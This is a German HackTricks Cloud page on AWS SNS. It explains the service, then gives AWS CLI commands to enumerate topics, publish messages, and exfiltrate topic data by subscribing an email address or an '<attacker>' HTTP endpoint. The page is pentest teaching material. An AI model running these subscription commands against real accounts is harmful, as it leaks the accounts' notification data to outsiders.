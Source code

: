 # AWS - SNS Enum

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Unterstützen Sie HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos einreichen.

</details>
{% endhint %}

## SNS

Amazon Simple Notification Service (Amazon SNS) wird als **vollständig verwalteter Messaging-Dienst** beschrieben. Er unterstützt sowohl **Anwendung-zu-Anwendung** (A2A) als auch **Anwendung-zu-Person** (A2P) Kommunikationsarten.

Wichtige Funktionen für die A2A-Kommunikation umfassen **Publish/Subscribe (Pub/Sub)-Mechanismen**. Diese Mechanismen führen **Themen** ein, die entscheidend sind, um eine hohe Durchsatzrate, **push-basierte, viele-zu-viele Nachrichtenübertragung** zu ermöglichen. Diese Funktion ist besonders vorteilhaft in Szenarien, die verteilte Systeme, Microservices und ereignisgesteuerte serverlose Architekturen umfassen. Durch die Nutzung dieser Themen können Publizierungssysteme Nachrichten effizient an eine **breite Palette von Abonnentensystemen** verteilen und ein Fanout-Nachrichtenmuster ermöglichen.

### **Unterschied zu SQS**

**SQS** ist ein **warteschlangenbasierter** Dienst, der Punkt-zu-Punkt-Kommunikation ermöglicht und sicherstellt, dass Nachrichten von einem **einzelnen Verbraucher** verarbeitet werden. Er bietet **mindestens einmalige Zustellung**, unterstützt Standard- und FIFO-Warteschlangen und ermöglicht die Nachrichtenaufbewahrung für Wiederholungen und verzögerte Verarbeitung.\
Im Gegensatz dazu ist **SNS** ein **Publish/Subscribe-basierter Dienst**, der **eins-zu-viele** Kommunikation ermöglicht, indem Nachrichten gleichzeitig an **mehrere Abonnenten** gesendet werden. Er unterstützt **verschiedene Abonnementendpunkte wie E-Mail, SMS, Lambda-Funktionen und HTTP/HTTPS** und bietet Filtermechanismen für gezielte Nachrichtenübermittlung.\
Während beide Dienste die Entkopplung zwischen Komponenten in verteilten Systemen ermöglichen, konzentriert sich SQS auf warteschlangenbasierte Kommunikation, während SNS ereignisgesteuerte, Fan-out-Kommunikationsmuster betont.

### **Enumeration**
```bash
# Get topics & subscriptions
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Check privescs & post-exploitation
aws sns publish --region <region> \
--topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
--message file://message.txt

# Exfiltrate through email
## You will receive an email to confirm the subscription
aws sns subscribe --region <region> \
--topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
--protocol email \
--notification-endpoint my-email@example.com

# Exfiltrate through web server
## You will receive an initial request with a URL in the field "SubscribeURL"
## that you need to access to confirm the subscription
aws sns subscribe --region <region>\
--protocol http \
--notification-endpoint http://<attacker>/ \
--topic-arn <arn>
```
{% hint style="danger" %}
Beachten Sie, dass wenn das **Thema vom Typ FIFO** ist, nur Abonnenten, die das Protokoll **SQS** verwenden, genutzt werden können (HTTP oder HTTPS können nicht verwendet werden).

Stellen Sie außerdem sicher, dass Sie die richtige Region in **`--region`** angeben, auch wenn die `--topic-arn` die Region enthält, oder Sie erhalten einen Fehler, der darauf hinweist, dass Sie keinen Zugriff haben, aber das Problem ist die Region.
{% endhint %}

#### Unauthenticated Access

{% content-ref url="../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md" %}
[aws-sns-unauthenticated-enum.md](../aws-unauthenticated-enum-access/aws-sns-unauthenticated-enum.md)
{% endcontent-ref %}

#### Privilege Escalation

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

#### Post Exploitation

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

#### Persistence

{% content-ref url="../aws-persistence/aws-sns-persistence.md" %}
[aws-sns-persistence.md](../aws-persistence/aws-sns-persistence.md)
{% endcontent-ref %}

## References

* [https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/](https://aws.amazon.com/about-aws/whats-new/2022/01/amazon-sns-attribute-based-access-controls/)

{% hint style="success" %}
Lernen & üben Sie AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Lernen & üben Sie GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Überprüfen Sie die [**Abonnementpläne**](https://github.com/sponsors/carlospolop)!
* **Treten Sie der** 💬 [**Discord-Gruppe**](https://discord.gg/hRep4RUj7f) oder der [**Telegram-Gruppe**](https://t.me/peass) bei oder **folgen** Sie uns auf **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Teilen Sie Hacking-Tricks, indem Sie PRs an die** [**HackTricks**](https://github.com/carlospolop/hacktricks) und [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub-Repos senden.

</details>
{% endhint %}
